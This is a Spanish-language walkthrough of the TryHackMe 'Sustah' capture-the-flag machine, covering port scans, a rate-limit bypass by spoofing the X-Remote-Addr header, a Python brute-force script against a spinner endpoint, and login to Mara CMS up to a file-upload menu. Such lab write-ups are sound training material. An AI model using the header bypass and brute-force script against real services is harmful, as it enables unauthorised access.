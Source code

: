 ## TryHackMe  <> Sustah
![image](https://github.com/Esevka/CTF/assets/139042999/0db32652-0c5f-4694-938c-dc2223044a5c)

Enunciado : Responder a una serie de preguntas y  obtener las flags de usuario y root.
---
---

## Escaneo de puertos

-Lanzamos una traza ICMP(ping) para ver si la maquina esta activa, segun el ttl obtenido, por proximidad al valor 64 podriamos decir que es una maquina Linux.

    ┌──(root㉿kali)-[/home/kali/Desktop/ctf/sustah]
    └─# ping -c1 10.10.171.9
    PING 10.10.171.9 (10.10.171.9) 56(84) bytes of data.
    64 bytes from 10.10.171.9: icmp_seq=1 ttl=63 time=93.8 ms
    
    --- 10.10.171.9 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 93.760/93.760/93.760/0.000 ms

-Reporte Nmap (Obtenemos puertos abiertos servicios y versiones que estan corriendo).

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/sustah/nmap]
    └─# nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.171.9 -vvv -oN open_ports                                                      
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 10:12 CEST
    Initiating SYN Stealth Scan at 10:12
    PORT     STATE SERVICE REASON
    22/tcp   open  ssh     syn-ack ttl 63
    80/tcp   open  http    syn-ack ttl 63
    8085/tcp open  unknown syn-ack ttl 63
    
                                                                                                                                                                                  
    ┌──(root㉿kali)-[/home/…/Desktop/ctf/sustah/nmap]
    └─# nmap -p 22,80,8085 -sCV 10.10.171.9 -vvv -oN info_ports                   
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 10:14 CEST
    Scanned at 2023-08-07 10:14:10 CEST for 10s
    
    PORT     STATE SERVICE REASON         VERSION
    22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 bda4a3ae66681d74e1c06aeb2b9bf333 (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7zuGtMGKQdFrh6Y8Dgwdo7815klLm7VzG05KNvT112MyF41Vxz+915iRz9nTSQ583i1cmjHp+q+fMq+QGiO0iwIdYN72jop6oFxqyaO2ZjBE3grWHSP2xMsTZc7qXgPu9ZxzVAfc/4mETA8B00yc6XNApJUwfJOYz/qt/pb0WHDVBQLYesg+rrr3UZDrj9L7KNFlW74mT0nzace0yqtcV//dgOMiG8CeS6TRyUG6clbSUdr+yfgPOrcUwhTCMRKv2e30T5naBZ60e1jSuXYmQfmeZtDZ4hdsBWDfOnGnw89O9Ak+VhULGYq/ZxTh31dnWBULftw/l6saLaUJEaVeb
    |   256 9adb73790c72be051a8673dcac6d7aef (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBENNM4XJDFEnfvomDQgg0n7ZF+bHK+/x0EYcjrLP2BGgytEp7yg7A36KajE2QYkQKtHGPamSRLzNWmJpwzaV65w=
    |   256 648d5c79dee1f73f087cebb7b324641f (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOd1NxUo0xJ3krpRI1Xm8KMCFXziZngofs/wjOkofKKV
    
    80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-title: Susta
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    
    8085/tcp open  http    syn-ack ttl 63 Gunicorn 20.0.4
    |_http-title: Spinner
    |_http-server-header: gunicorn/20.0.4
    | http-methods: 
    |_  Supported Methods: HEAD OPTIONS POST GET
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    

## Analisis de vulnerabilidades en los servicios y explotacion de los mismos.

 -Segun el launchpad obtenido de los servicios OpenSSH y Apache conjunto con el ttl de la traza ICMP, pordriamos decir que estamos delante de una maquina LINUX.

 ![image](https://github.com/Esevka/CTF/assets/139042999/49d7dfd9-eb31-4b51-9b5c-df8ffe9b07b8)

-Puerto 80

  Cargamos la web pero no encontramos nada que nos pueda valer.
  Fuzzeamos con gobuster  pero no encontramos nada.

-Puerto 8085

  Cargamos la web y encontramos una ruleta de la suerte realizada en .js, analizamos su contenido.

  ![image](https://github.com/Esevka/CTF/assets/139042999/d3ffcce9-de04-4075-909f-fd05dc7b251c)

  Supuestamente si metemos el numero correcto nos debe de dar algo, vamos a interceptar la request con Burpsuite y vemos que hace esto.

  Request, mediante el metodo POST envia una variable llamada number=

  ![image](https://github.com/Esevka/CTF/assets/139042999/c5d8ff03-e3d0-4c0a-84ab-4244fbfae3a6)

  Response, como vemos en la imagen las request estan limitadas en tiempo ya que la cabezera de la  respuesta incluye X-RateLimit-Limit.
  
  ![image](https://github.com/Esevka/CTF/assets/139042999/ad9b7652-bb4d-4423-8d41-1bf415509532)

  INFO:
  
    ¿Qué es el Rate Limit?
    El rate limit es el número de llamadas a la API que el usuario o aplicación pueden realizar dentro de un determinado período de tiempo.
    
    RateLimit-Limit: Indica cuántas llamadas tu aplicación puede hacerle a nuestra API por ventana de tiempo. Como ya hemos dicho anteriormente, 
                      nuestra ventana de tiempo es de 1 minuto.
    
    RateLimit-Remaining: Indica el total de solicitudes del cliente disponibles en la ventana de tiempo.
    
    RateLimit-Reset: Indica el tiempo restante para que el límite de solicitudes sea redefinido.


---
Explotamos la aplicacion por fuerza bruta.

1)Nesesitamos bypasear el limite de llamadas a la API.

Info --> https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass

En la cabezera de la request vamos a incluir la siguiente propiedad  (X-Remote-Addr: 127.0.0.1)

        En el caso de "X-Remote-Addr: 127.0.0.1", el encabezado parece indicar la dirección IP del cliente remoto (la computadora o el dispositivo del usuario)
        que realizó la solicitud HTTP al servidor. La dirección IP 127.0.0.1 es una dirección IP especial que apunta a la interfaz de bucle invertido de la máquina local, 
        lo que significa que se refiere a la misma máquina en la que se ejecuta el servidor.

Como vemos hemos podidos saltar el limite, la respuesta ya no incluye en su cabecera los x-limit.

![image](https://github.com/Esevka/CTF/assets/139042999/cc781051-3f59-4c54-b9fe-28b1d30b1efd)

2)Nos vamos a crear un script en python donde vamos a realizar request incluyendo en el encabezado x-Remote y como data le enviamos la variable number con un valor numerico, veremos si damos con el numero correcto.

Contenido del spinner.py, el range del buble for lo aumentaremos en el caso que no este el numero entre 0 y 20000.

    import requests
    
    def spinner(number):
    
            url = 'http://sustah.thm:8085/'
            custom_header = {'X-Remote-Addr':'127.0.0.1'}
            data_number = {'number':'{}'.format(number)}
    
            r = requests.post(url,headers=custom_header,data=data_number)
    
            if 'Spin the wheel and try again' in r.text:
                    print(number)
            else:
                    print(number)
                    print(r.text)
                    exit()
                    
    def main():
            for x in range(0,20000):
                    spinner(x)
    
    if __name__=='__main__':
            main() 

Ejecutamos script y esperamos la gran respuesta.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/sustah/script]
    └─# python3 spinner.py
    [...]
    10913
    10914
    10915
    [...]
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Spinner</title>
        <link rel="stylesheet" href="/static/style.css">
    </head>
    <body>
      <strong>0</strong>
        <h1>Spinner Wheel</h1>
    [...]
    
        </form>
        <h3>path: /You....P@th</h3>
    </body>
    <script src="/static/index.js"></script>
    
    </html>

Acabamos de obtener el numero correcto y la respuesta que incluye un path  path: /You....P@th

---

Accedemos al path obtenido

Dicho path solo es accesible desde el puerto 80, esta url nos da acceso a MARA CMS

Navegando por lo web si entramos desde el menu Sample Pages ---> Test Page , encontramos una credenciales de acceso

![image](https://github.com/Esevka/CTF/assets/139042999/f83102c7-eb69-4f82-bed4-b65da2d27c0a)

Nos creamos un usuario y nos logueamos con el

![image](https://github.com/Esevka/CTF/assets/139042999/9e18183c-54e2-438b-a008-2781e1138b71)\

![image](https://github.com/Esevka/CTF/assets/139042999/87019269-68ed-49b7-acb4-53cbd77651a4)

Desde el menu File-->new (nos da opcion a subir ficheros al sistema).









